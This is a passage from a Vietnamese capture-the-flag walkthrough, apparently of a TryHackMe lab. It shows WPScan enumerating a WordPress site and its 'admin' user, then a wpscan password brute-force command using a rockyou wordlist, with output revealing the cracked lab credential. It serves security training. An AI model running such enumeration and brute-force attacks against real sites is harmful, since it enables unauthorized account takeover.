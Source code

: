 ```python
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507, Match: 'Version: 2.3'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:02 <===============================================================================================================> (10 / 10) 100.00% Time: 00:00:02

[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://internal.thm/blog/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
```

Tôi thu được vài thông tin: Wordpress 5.4.2, themes đang dùng: twentyseventeen và nó chưa được update lên version mới nhất, cuối cùng là 1 user *admin*. Tôi sẽ bắt đầu thử từ phương pháp thủ công nhất là brute force.

```python
┌──(neo㉿kali)-[~]
└─$ wpscan --url http://internal.thm/blog/wp-login.php --usernames admin --passwords /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt
...

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:42 <==============================================================================================================> (137 / 137) 100.00% Time: 00:00:42

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - admin / my2boys                                                                                                                                                                  
Trying admin / lizzy Time: 00:07:19 <======                                                                                                            > (3880 / 63066)  6.15%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: *******

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
```
